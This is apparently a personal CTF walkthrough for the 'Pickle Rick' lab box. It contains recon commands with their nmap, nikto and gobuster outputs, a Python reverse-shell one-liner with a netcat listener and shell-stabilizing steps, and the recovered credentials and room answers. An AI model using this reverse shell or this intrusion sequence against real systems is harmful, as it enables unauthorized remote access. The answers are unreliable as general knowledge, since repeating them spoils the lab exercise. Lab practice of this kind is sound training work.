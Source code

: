 # Playbook

(Could use hydra)

1. nmap scan IP address
    - nmap -sC -sV -oN IP
2. Run a nikto scan and log it
   - nikto -h http://IP | tee nikto.log 
   - Check out robots.txt, if it has one
3. Run gobuster
   - gobuster -u http://IP -w /opt/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py
   - there is a login page 
4. Look up source IP 
5. Inspect page source code
6. Command panel is shown, try out commands
    - grep pattern filename -> grep . file.txt
    - while read line; do echo $line; done < clue.txt
7. with a command line, lets set up a reverse shell
   - using python or netcat
   - python3 -c "print('hello')"
8. use pentestmonkey to create a reverse shell with
   - pentestmonkey.net
   - python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
   - nc -lnvp 9999
9. stabalize reverse shell
   - john hammonds - poor mans pentest -> stabalize_shell3.sh and upload_file_nc.sh
10. try to become root and snoop

# stabalizing shell

```
nc -lnvp 9999
CRTL + z
stty raw -echo;fg
ENTER
export TERM=xterm

```


```
export IP=10.10.200.202

```

# results

```
Username: R1ckRul3s

Wubbalubbadubdub



Sup3rS3cretPickl3Ingred.txt
    -> mr. meeseek hair
assets

clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
-> echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | ba0== base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d 
-> rabbit hole

2nd ingredeient: 1 jerry tear

3rd ingredients: fleeb juice



```

# nmap results

```
# Nmap 7.60 scan initiated Wed Jun 28 01:41:28 2023 as: nmap -v2 -sC -sV -oN picklerick 10.10.200.202
Nmap scan report for ip-10-10-200-202.eu-west-1.compute.internal (10.10.200.202)
Host is up, received arp-response (0.00065s latency).
Scanned at 2023-06-28 01:41:28 BST for 8s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:19:a9:19:98:47:e1:1c:d6:c9:93:05:3a:21:f7:31 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXQvVH41KSuadM08ffKn4AJ84TYkDWCZi4GsFZSamPsfWXdwpjZDVrd7i13/AeBHzH1XsKU+Hup7rNRhZMWFCQp2wIZ0ZpE+TnZZYCQ2fLRE6iZt89DEdG69sBQ18u5cQMMLVLLEqNO3UmNK879VV5e44yI+kD9X0oWeQwx9Q7ti7nlhJfU8/7aoju8oMVe9o2q4Ob2I+8wTnhwkJD1bZ1piaQH1DDXsc8KpPRpVsBD4YnYvMS2RoZc8RphexiNPxpoN+O1ZliykH5rkO/vHDmECmuxsCVLelF4nqQ2QagQxD0Kkk1HizHKHAgt+7ZyAru9ujoouZNhFTdkLFh0oQT
|   256 be:28:92:ac:7b:ae:dc:1e:9c:3c:c6:46:d9:7f:61:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBS067AqsZvzoH2Rae/jK9l4jbjnQ990cVCD30qDX0fpi1pwY3t3hSl33C+v1E7rWdkOF/js8RTb3Okledd3xQk=
|   256 e3:aa:0b:c9:71:5b:69:4b:a9:46:ed:6d:fe:5a:34:f5 (EdDSA)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIOfUkbIJjqVzU4y7ZSvm2LaOHH7yS0+j3cIwEa1G92I
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:ED:86:D2:ED:F9 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 28 01:41:36 2023 -- 1 IP address (1 host up) scanned in 8.33 seconds
```

# nikto results

```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.200.202
+ Target Hostname:    ip-10-10-200-202.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2023-06-28 01:58:08 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2023-06-28 01:58:17 (GMT1) (9 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

# gobuster results

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.200.202
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,cgi,html,js,css,py,php,sh
[+] Timeout:        10s
===============================================================
2023/06/28 02:22:29 Starting gobuster
===============================================================
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/robots.txt (Status: 200)
/denied.php (Status: 302)
/server-status (Status: 403)
/clue.txt (Status: 200)
===============================================================
2023/06/28 02:25:19 Finished
===============================================================
```

# task 1

```
1. What is the first ingredient that Rick needs?

2. What is the second ingredient in Rick’s potion?

3. What is the last and final ingredient?

```